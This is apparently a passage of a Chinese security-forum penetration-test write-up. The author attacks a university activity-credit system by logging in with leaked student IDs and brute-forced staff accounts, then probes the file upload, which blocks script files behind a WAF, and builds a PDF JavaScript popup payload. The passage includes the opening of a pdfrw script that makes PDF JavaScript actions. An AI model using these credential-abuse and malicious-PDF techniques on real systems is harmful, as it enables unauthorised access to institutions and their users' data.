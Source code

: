 ![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-737817476ea22d438b49c5fa27ea4e72ba2f9dce.png)  
我没有身份证，所以不测了。

#### 信息收集+登录后台+没有绕过的文件上传

这次是一个第二课堂的系统，其实刚进来是完全没有头绪的.....直到

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-faec21cd8f90fb39c49af9b0ec358b8110a578af.png)  
于是，我将之前信息泄露的学生学号放上去测试，然后

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-4adffe33a1a58d6817ea3e584e100691eb776770.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-77c80998e922bbd7eaf129744259939de10567d2.png)

难道学校欺骗小学生？  
我不甘心，然后将前面爆破到的教工账号放上去测试。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-48e47cdb1e07e8d2963c8a34007ff8272eecb04c.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-dc4eab8ebe7e067e1ce9e92bca1fae41c2d5eca2.png)

进入后找了一堆接口发现全部要登录，而且没啥漏洞，于是就把手伸到了文件上传的地方。  
第一处：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-3f44b0bae31ba8b61fb993e0c6b949771cf94b88.png)

这一处应该存在黑名单过滤，脚本类文件无法上传，这里包括了xml，html，js，css文件均无法上传，该系统应该存在waf，上传脚本文件直接400错误，就连弹窗快乐一下都不行了？

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-0f85e5da1d52c14f31527e3eaa47d8a66bb53b35.png)

放弃是不可能的，记得pdf应该也可以弹窗的，然后就是找pdf的弹窗payload，

工具:  
[osnr/horrifying-pdf-experiments: Stuff which works in Chrome and maybe Acrobat and Foxit. (github.com)](https://github.com/osnr/horrifying-pdf-experiments)

scq.py

```py
# FROM https://github.com/osnr/horrifying-pdf-experiments
import sys

from pdfrw import PdfWriter
from pdfrw.objects.pdfname import PdfName
from pdfrw.objects.pdfstring import PdfString
from pdfrw.objects.pdfdict import PdfDict
from pdfrw.objects.pdfarray import PdfArray

def make_js_action(js):
    action = PdfDict()
    action.S = PdfName.JavaScript
    action.JS = js
    return action

def make_field(name, x, y, width, height, r, g, b, value=""):
    annot = PdfDict()
    annot.Type = PdfName.Annot
    annot.Subtype = PdfName.Widget
    annot.FT = PdfName.Tx
    annot.Ff = 2
    annot.Rect = PdfArray([x, y, x + width, y + height])
    annot.MaxLen = 160
    annot.T = PdfString.encode(name)
    annot.V = PdfString.encode(value)

    # Default appearance stream: can be arbitrary PDF XObject or
```